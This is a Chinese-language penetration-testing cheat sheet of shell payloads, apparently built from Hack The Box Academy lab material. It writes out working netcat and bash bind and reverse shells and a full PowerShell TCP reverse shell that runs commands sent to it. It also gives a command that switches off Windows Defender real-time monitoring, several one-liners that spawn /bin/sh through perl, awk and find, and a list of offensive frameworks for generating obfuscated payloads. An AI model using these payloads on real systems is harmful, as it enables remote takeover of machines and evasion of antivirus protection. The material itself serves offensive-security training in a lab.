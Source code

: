 # Payloads

## 一、SHELL 基础

### 1. 绑定 SHELL

> 使用绑定 SHELL ，目标系统会启动一个侦听器并等待攻击机的连接

![](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

```shell
# 目标系统--将 Bash shell 绑定到 TCP 会话
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.59.215 7777 > /tmp/f

# 攻击机
nc -nv 10.129.59.215 7777
```

### 2. Reverse shell

> 使用 Reverse shell , 攻击框将运行一个侦听器，目标将需要启动连接 Reverse shell 在线生成器 --> [跳转链接](https://www.revshells.com/)

![](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

```shell
# 攻击机
sudo nc -lvnp 443

# 目标系统 -- windows
Set-MpPreference -DisableRealtimeMonitoring $true
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## 二、Payloads

```shell
# Netcat/Bash 反向 Shell 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f

# PowerShell 
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## 三、Windows Shell

### 1. 枚举 Windows 和指纹识别

1. 使用 nmap 模块进行枚举
2. 不同的操作系统，ping 之后返回的 TTL 通常是不同的，我们可以利用这一个弱点进行利用 --> [不同的操作系统对应的 TTL](http://subinsb.com/default-device-ttl-values/#comment-3068871033)

### 2. Payload 类型

> 在为 Windows 创建有效负载时，我们可以使用下面几种类型

* DLL : 动态链接库 (DLL) 是 Microsoft 操作系统中使用的库文件
* bat : 批处理文件是系统管理员用来通过命令行解释器完成多项任务的基于文本的 DOS 脚本
* VBS : icrosoft Visual Basic 的轻量级脚本语言
* MSI : 用作 Windows Installer 的安装数据库
* Powershell : Powershell 既是shell 环境又是脚本语言

### 3. Payload 生成

| 资源                              | 描述                                                                                                                                                 |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| MSFVenom & Metasploit-Framework | [Source](https://github.com/rapid7/metasploit-framework) MSF 是一个非常通用的工具，适用于任何渗透测试人员的工具包。它用作枚举主机、生成有效负载、利用公共和自定义漏洞以及在主机上执行一次漏洞利用后操作的方法。把它想象成一把瑞士军刀。 |
| Payloads All The Things         | [Source](https://github.com/swisskyrepo/PayloadsAllTheThings) 您可以找到许多不同的资源和备忘单，用于生成有效负载和一般方法。                                                      |
| Mythic C2 Framework             | [Source](https://github.com/its-a-feature/Mythic) Mythic C2 框架是 Metasploit 作为命令和控制框架和工具箱的替代选项，用于生成独特的有效负载。                                         |
| Nishang                         | [Soucre](https://github.com/samratashok/nishang) Nishang 是 Offensive PowerShell 植入程序和脚本的框架集合。它包括许多对任何渗透测试者都有用的实用程序。                                |
| Darkarmour                      | [Source](https://github.com/bats3c/darkarmour) Darkarmour 是一种用于生成和利用混淆二进制文件以针对 Windows 主机的工具。                                                      |

### 4. Payload 传输和执行

* `Impacket`: [Impacket](https://github.com/SecureAuthCorp/impacket)是一个内置于 Python 的工具集，它为我们提供了一种直接与网络协议交互的方式。我们在 Impacket 中关心的一些最令人兴奋的工具处理、、、Kerberos`psexec`以及支持 SMB 服务器的能力。`smbclient``wmi`
* \[Payloads All The Things]\(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Download and Execute.md) : 是一个很好的资源，可以找到快速的 oneliners 以帮助方便地跨主机传输文件。
* `SMB`：SMB 可以提供一个易于利用的路径来在主机之间传输文件。当受害主机加入域并利用共享来托管数据时，这尤其有用。作为攻击者，我们可以使用这些 SMB 文件共享以及 C$ 和 admin$ 来托管和传输我们的有效负载，甚至可以通过链接泄露数据。
* `Remote execution via MSF`：Metasploit 中的许多漏洞利用模块中内置了一个函数，该函数将自动构建、暂存和执行有效负载。
* `Other Protocols`: 在查看主机时，FTP、TFTP、HTTP/S 等协议可以为您提供一种将文件上传到主机的方法。枚举并关注已开放并可供使用的功能。

## 四、生成交互式 SHELL

> [LOLBAS](https://lolbas-project.github.io/)

```shell
# Perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";

# Ruby
ruby: exec "/bin/sh"

# Lua
lua: os.execute('/bin/sh')

# AWK
awk 'BEGIN {system("/bin/sh")}'

# 使用 FInd shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# 使用 EXEC 启动 SHELL
find . -exec /bin/sh \; -quit

# 获取 sudo  权限
sudo -l
```
